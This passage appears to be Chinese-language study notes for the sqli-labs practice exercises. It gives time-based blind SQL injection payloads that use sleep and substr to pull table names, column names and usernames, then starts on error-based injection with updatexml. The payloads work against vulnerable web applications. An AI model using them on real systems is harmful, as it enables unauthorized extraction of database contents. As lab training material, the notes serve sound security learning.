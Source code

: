 ![image-20240807195021956](../../../../repo/assets/19.SQL注入/image-20240807195021956.png)

##### 表名

```bash
' or if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,sleep(5),0) or '1'='1
```

![image-20240807195106894](../../../../repo/assets/19.SQL注入/image-20240807195106894.png)

##### 字段数

```bash
' or if((select count(column_name) from information_schema.columns where table_name='users' and table_schema=database())=3,sleep(5),0) or '1'='1
```

![image-20240807195152834](../../../../repo/assets/19.SQL注入/image-20240807195152834.png)

##### 字段名

```bash
' or if(ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1),1,1))=105,sleep(5),0) or '1'='1
```

![image-20240807195247352](../../../../repo/assets/19.SQL注入/image-20240807195247352.png)

##### 字段值行数

```bash
' or if((select count(username) from users)=13,sleep(5),0) or '1'='1
```

![image-20240807195326526](../../../../repo/assets/19.SQL注入/image-20240807195326526.png)

##### 字段值

```
' or if(ascii(substr((select username from users limit 0,1),1,1))=68,sleep(5),0) or '1'='1
```

![image-20240807195638111](../../../../repo/assets/19.SQL注入/image-20240807195638111.png)

#### Less-19 报错注入

##### 版本

```bash
' and updatexml(1,concat(0x7e,version(),0x7e),1) or '1'='1
```

![image-20240807150035666](../../../../repo/assets/19.SQL注入/image-20240807150035666.png)

##### 数据库名
